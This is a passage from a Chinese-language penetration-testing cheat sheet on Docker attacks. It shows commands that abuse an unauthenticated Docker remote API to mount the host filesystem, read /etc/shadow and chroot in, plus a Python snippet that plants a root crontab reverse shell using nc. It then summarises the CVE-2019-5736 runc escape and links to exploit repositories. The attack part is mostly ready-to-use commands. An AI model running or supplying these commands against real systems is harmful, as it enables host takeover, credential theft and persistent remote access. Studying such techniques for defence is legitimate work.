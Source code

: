         docker -H tcp://[IP] run -it --privileged=true busybox sh
        fdisk -l
        mkdir /aaa
        mount /dev/dm-0 /aaa

        或

        docker -H tcp://xx.xx.xx.xx:2375 run -it -v /:/mnt busybox sh
        cd /mnt
        ls

        或

        docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
        cat /mnt/etc/shadow
        chroot /mnt

        # 拿下后直接写 crontab 即可
        ```
    - [netxfly/docker-remote-api-exp](https://github.com/netxfly/docker-remote-api-exp)
    - [Tycx2ry/docker_api_vul](https://github.com/Tycx2ry/docker_api_vul)
    - [docker daemon api 未授权访问漏洞](https://github.com/vulhub/vulhub/blob/master/docker/unauthorized-rce/README.zh-cn.md)
        ```py
        import docker

        client = docker.DockerClient(base_url='http://your-ip:2375/')
        data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc 反弹地址 反弹端口 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
        ```

---

## 容器服务缺陷

**CVE-2019-5736 漏洞逃逸**
- 描述

    Docker、containerd 或者其他基于 runc 的容器在运行时存在安全漏洞，runC 是用于创建和运行 Docker 容器的 CLI 工具,runC 18.09.2版本前的 Docker 允许恶意容器覆盖宿主机上的 runC 二进制文件。攻击者可以通过特定的容器镜像或者 exec 操作获取到宿主机 runc 执行时的文件句柄并修改掉 runc 的二进制文件，从而获取到宿主机的 root 执行权限。

- 影响版本
    - Docker Version < 18.09.2
    - runC Version <= 1.0-rc6

- 相关文章
    - [Breaking out of Docker via runC - Explaining CVE-2019-5736](https://unit42.paloaltonetworks.com/breaking-docker-via-runc-explaining-cve-2019-5736/)
    - [RUNC 严重安全漏洞CVE-2019-5736 导致容器逃逸](http://blog.nsfocus.net/runc-cve-2019-5736/)

- POC | Payload | exp
    - [Frichetten/CVE-2019-5736-PoC](https://github.com/Frichetten/CVE-2019-5736-PoC)
